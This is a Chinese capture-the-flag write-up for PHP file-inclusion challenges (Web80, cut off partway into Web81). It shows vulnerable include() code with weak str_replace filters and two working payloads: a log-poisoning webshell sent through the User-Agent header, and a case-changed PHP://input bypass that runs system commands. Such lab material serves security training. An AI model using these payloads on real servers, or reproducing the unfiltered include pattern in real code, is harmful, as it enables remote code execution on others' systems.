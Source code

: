 题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

### 方法一：文件包含webshell

payload

```
包含日志文件 进行getshell 
Useragent: <?php system($_GET['a']);?>
日志文件路径： ?file=/var/log/nginx/access.log&a=ls
```

### 方法二：大小写绕过

```
/?file=PHP://input   // phP
<?php system("ls");?>
```

## Web81

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
```